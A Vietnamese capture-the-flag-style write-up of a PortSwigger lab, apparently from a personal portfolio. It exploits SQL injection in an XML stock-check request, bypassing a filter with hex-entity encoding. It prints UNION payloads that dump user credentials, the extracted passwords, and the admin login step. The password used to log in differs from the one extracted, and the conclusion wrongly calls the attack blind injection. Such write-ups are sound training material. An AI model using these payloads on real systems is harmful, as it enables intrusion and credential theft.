





# Write-up: SQL injection with filter bypass via XML encoding

### Tổng quan
Ghi lại quá trình khai thác lỗi SQLi bằng cách vượt qua bộ lọc (WAF) thông qua XML encoding, nhằm lấy được mật khẩu và đăng nhập với quyền `administrator`.

### Mục tiêu
- Khai thác mật khẩu và đăng nhập dưới quyền `administrator`

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tính năng `check stock` của một sản phẩm bất kì, nhận thấy kho sẽ gửi `productId` và `storeId` đến web bằng định dạng XML và sử dụng nó để thực hiện lấy thông tin từ DB.
    

- Kiểm tra xem có cần mã hóa truy vấn không
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 UNION SELECT NULL
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: xác nhận cần mã hóa
        

- Xác định số cột trả về 
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT NULL, NULL
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Chỉ có 1 cột được trả về.
        


2. **Tạo Payload**
- Tạo payload để trích xuất thông tin người dùng
    ```
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>
                1
            </productId>
            <storeId>
                1 <@hex_entities>
                    UNION SELECT username ||'~'|| password FROM users
                </@hex_entities>
            </storeId>
        </stockCheck>
    ```
    - **Kết quả**: Truy vấn thành công thông tin
        `administrator`~`4j4v7teu59b7w37bgj1k`
        `carlos`~`lo6w71a8ut7z6557yy5z`
        `wiener`~`ybbmoi6oocvigcegaknt`
        

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `administrator` : `cjmpp53lzxnc5oaxkplg` và hoàn thành lab
    

### Bài học rút ra
- Củng cố kỹ năng khai thác SQL injection với kỹ thuật XML encoding bypass.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.